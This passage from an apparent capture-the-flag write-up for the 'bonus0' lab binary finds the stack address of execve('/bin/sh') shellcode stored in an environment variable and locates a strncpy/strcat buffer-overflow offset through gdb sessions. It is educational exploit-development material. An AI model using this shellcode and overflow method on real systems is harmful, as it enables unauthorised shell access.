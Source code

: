 8. Now, we need to find its address to use it.

    ```bash
    	> EXPLOIT=$(python -c "print '\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x89\\xc1\\x89\\xc2\\xb0\\x0b\\xcd\\x80\\x31\\xc0\\x40\\xcd\\x80'") gdb bonus0
    ...

    > r
    Starting program: /home/user/bonus0/bonus0
     -
    AAAABBBBCCCCDDDDEEEEFFFFGGGG
     -
    aaaabbbbccccddddeeeeffffgggg
    AAAABBBBCCCCDDDDEEEEaaaabbbbccccddddeeee��� aaaabbbbccccddddeeee���

    Program received signal SIGSEGV, Segmentation fault.
    0x64636363 in ?? ()

    > (gdb) x/5s *environ
    0xbffff8e4:	 "EXPLOIT=1\300Ph//shh/bin\211\343\211\301\211°\v̀1\300@̀"
    0xbffff909:	 "SHELL=/bin/bash"
    0xbffff919:	 "TERM=xterm-256color"
    0xbffff92d:	 "SSH_CLIENT=192.168.56.1 40012 4242"
    0xbffff950:	 "SSH_TTY=/dev/pts/0"
    ```

9. Was pretty easy. So, the address is `0xbffff8e4`, however, we have to strip the variable name, therefore, the shellcode address is `0xbffff8ec`.
10. Now we need the find the offset for the overflow. With the commands below, we get the `SIGSEGV` on `0x64636363` which is `cccd`, so we have an offset of `9` on the second argument.

    ```bash
    > gdb bonus0
    ...

    > (gdb) r
    Starting program: /home/user/bonus0/bonus0
     -
    AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ
     -
    aaaabbbbccccddddeeeeffffgggghhhhiiiijjjj
    AAAABBBBCCCCDDDDEEEEaaaabbbbccccddddeeee��� aaaabbbbccccddddeeee���

    Program received signal SIGSEGV, Segmentation fault.
    0x64636363 in ?? ()
    ```

11. Fine, now we have to find an exploit by understanding the program flow.
    1. A first input `read` from `stdin`, replacing the `\n` by `\0`
    2. The input is copied into the `input_1` buffer using `strncpy` which can be exploited by providing an input larger than the limit (20 bytes here), making it not null terminated (no `\0` is added)
    3. Repeat steps `a` and `b` for a second input
    4. The first `input_1` buffer is copied into a `main` buffer (up to the first `\0` found, therefore if the input was larger than the 20 bytes allowed, `strcpy` will continue reading the stack)
    5. The `\0` in the main buffer is replaced by a `space` making it not null  terminated too
    6. The second input `input_2` is concatenated using `strcat` to the `main` buffer
    7. Finally, the buffer is printed using `puts`
12. Perfect, we can try our first payload.
